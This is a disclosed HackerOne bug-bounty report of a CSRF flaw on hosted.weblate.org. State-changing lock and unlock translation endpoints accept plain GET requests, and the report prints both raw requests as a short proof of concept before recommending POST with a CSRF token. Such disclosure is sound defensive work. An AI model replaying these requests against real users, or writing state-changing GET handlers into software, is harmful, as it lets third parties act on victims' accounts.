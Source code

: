 # CSRF : Lock and Unlock Translation

## Report Details
- **Report ID**: 223345
- **URL**: https://hackerone.com/reports/223345
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-04-24T09:49:42.632Z
- **Disclosed**: 2017-05-17T18:03:36.341Z

## Reporter
- **Username**: jaypatel
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: weblate

## Vulnerability Information
**Description :**
Attacker can force to victim for Lock and Unlock Translation.

**That HTTP Request :**
```
GET /lock/aptoide-uploader/strings/ka/ HTTP/1.1
Host: hosted.weblate.org
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: https://hosted.weblate.org/
Accept-Encoding: gzip, deflate, sdch, br
Accept-Language: en-US,en;q=0.8
Cookie:  cookie_here
```
```
GET /unlock/aptoide-uploader/strings/ka/ HTTP/1.1
Host: hosted.weblate.org
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: https://hosted.weblate.org/
Accept-Encoding: gzip, deflate, sdch, br
Accept-Language: en-US,en;q=0.8
Cookie: cookie_here

```
**Fix :**
Make that Request POST , and add a CSRF token there.

Best Regards',
Jay Patel

## Attachments
No attachments
